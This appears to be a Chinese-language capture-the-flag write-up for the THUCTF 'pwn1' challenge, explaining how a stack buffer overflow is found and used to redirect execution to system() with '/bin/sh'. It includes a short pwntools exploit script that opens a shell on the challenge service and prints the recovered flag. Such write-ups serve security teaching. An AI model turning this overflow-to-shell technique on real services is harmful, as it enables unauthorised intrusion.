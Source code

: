 pwn1 300 points
================

题意
-------------

Do you know stack overflow?

nc host port

Attachment: stackoverflow_withleak

解题步骤
---------------

对二进制进行逆向，找到典型的缓冲区溢出问题：

![vul](./2018-09-28-22-57-45.png)

构造一个 0x2000 长度的字符串之后，即可覆写 `rbp` 和 `rip` 。一开始尝试跳转到 `doit` 函数：

![doit](2018-09-28-23-03-35.png)

然后发现并不工作。最后发现这个函数只是用来坑人的。仔细观察上面那张图，`call` 之后有一个 `mov rdi, rsp` 语句，此时 `rsp` 正好是 `scanf` 读入的字符串内容，于是我们掌握了函数调用的第一个参数。于是，如果我们把 `rip` 覆写为 `system` 的地址，我们就可以开一个 shell 了。

脚本（见 [pwn1.py](pwn1.py) ）如下：

```python
from pwn import *
r = remote(host, ip)
r.send('/bin/sh\0'+'A'*(8192-8))
r.send('A'*8)
r.send(p32(0x004005a0))
r.send('\n')
r.interactive()
```

其中 `0x004005a0` 为 `system()` 的地址。

进来系统后，找到 `/home/ctf_puck/flag` 文件中的 `flag`:

```
THUCTF{HahA_you_got_it_And_90od_Job!}
```
